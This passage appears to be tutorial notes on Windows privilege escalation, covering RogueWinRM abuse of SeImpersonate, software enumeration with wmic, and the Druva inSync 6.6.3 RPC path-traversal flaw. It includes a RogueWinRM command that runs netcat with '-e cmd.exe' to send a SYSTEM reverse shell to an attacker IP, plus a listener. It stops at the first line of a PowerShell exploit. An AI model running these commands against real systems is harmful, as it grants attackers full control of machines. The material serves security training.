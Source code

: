If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.
//on kali
nc -nvlp <port>
//command for windows exploit
<path-for-RogueWinRM>\RogueWinRM.exe -p “<path-to-netcat>\nc64.exe” -a “-e cmd.exe <attacker-ip> <port>”
//catch the reverse shell with nt/authority privileges
``````
```
Unpatched Software
```
Software installed on the target system can present various privilege escalation opportunities. As with drivers, organisations and users may not update them as often as they update the operating system. You can use the wmic tool to list software installed on the target system and its versions. The command below will dump information it can gather on installed software (it might take around a minute to finish):
wmic product get name,version,vendor
Remember that the wmic product command may not return all installed programs. Depending on how some of the programs were installed, they might not get listed here. It is always worth checking desktop shortcuts, available services or generally any trace that indicates the existence of additional software that might be vulnerable.
Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like exploit-db, packet storm or plain old Google, amongst many others.
``````
Case Study: Druva inSync 6.6.3
The target server is running Druva inSync 6.6.3, which is vulnerable to privilege escalation as reported by Matteo Malvica. The vulnerability results from a bad patch applied over another vulnerability reported initially for version 6.5.0 by Chris Lyne.
The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port 6064 with SYSTEM privileges, accessible from localhost only. If you aren't familiar with RPC, it is simply a mechanism that allows a given process to expose functions (called procedures in RPC lingo) over the network so that other machines can call them remotely.
In the case of Druva inSync, one of the procedures exposed (specifically procedure number 5) on port 6064 allowed anyone to request the execution of any command. Since the RPC server runs as SYSTEM, any command gets executed with SYSTEM privileges.
The original vulnerability reported on versions 6.5.0 and prior allowed any command to be run without restrictions. The original idea behind providing such functionality was to remotely execute some specific binaries provided with inSync, rather than any command. Still, no check was made to make sure of that.
A patch was issued, where they decided to check that the executed command started with the string C:\ProgramData\Druva\inSync4\, where the allowed binaries were supposed to be. But then, this proved insufficient since you could simply make a path traversal attack to bypass this kind of control. Suppose that you want to execute C:\Windows\System32\cmd.exe, which is not in the allowed path; you could simply ask the server to run C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe and that would bypass the check successfully.
//exploit to be executed in powershell
$ErrorActionPreference = "Stop"
